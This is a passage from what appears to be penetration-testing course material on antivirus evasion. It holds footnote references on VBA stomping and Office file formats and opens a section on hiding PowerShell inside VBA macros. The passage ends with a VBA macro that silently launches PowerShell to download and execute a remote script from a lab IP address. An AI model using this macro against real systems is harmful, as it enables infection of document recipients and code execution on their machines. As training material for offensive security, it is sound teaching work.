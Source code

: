 (Carrie Roberts, 2019), [https://github.com/clr2of8/Presentations/blob/master/DerbyCon2018-VBAstomp-Final-WalmartRedact.pdf](https://github.com/clr2of8/Presentations/blob/master/DerbyCon2018-VBAstomp-Final-WalmartRedact.pdf) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_280-1)

2

(Microsoft, 2020), [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-cfb/53989ce4-7b05-4f8d-829b-d08d6148375b](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cfb/53989ce4-7b05-4f8d-829b-d08d6148375b) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_280-2)

3

(Inv Softworks LLC, 2020), [http://www.flexhex.com/](http://www.flexhex.com/) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_280-3)

4

(Microsoft, 2020), [https://docs.microsoft.com/en-us/openspecs/office\_file\_formats/ms-ovba/ef7087ac-3974-4452-aab2-7dba2214d239](https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-ovba/ef7087ac-3974-4452-aab2-7dba2214d239) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_280-4)

5

(Microsoft, 2020), [https://docs.microsoft.com/en-us/openspecs/office\_file\_formats/ms-ovba/c66b58a6-f8ba-4141-9382-0612abce9926](https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-ovba/c66b58a6-f8ba-4141-9382-0612abce9926) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_280-5)

6

(Stan Hegt, 2019), [https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/](https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_280-6)

### 9.8. Hiding PowerShell Inside VBA

We have previously used the powerful combination of PowerShell and Microsoft Office in a client-side attack. In this section, we will use this powerful combination to further reduce our detection rates.

#### 9.8.1. Detection of PowerShell Shellcode Runner

One of the advantages of using the PowerShell shellcode runner is the fact that no first-stage shellcode is embedded in the document that is sent to the victim.

We accomplished this with a PowerShell download cradle that fetched and executed the full shellcode. A recap of that code is shown in Listing 39.

```
Sub MyMacro()
  Dim strArg As String
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
  Shell strArg, vbHide
End Sub
```
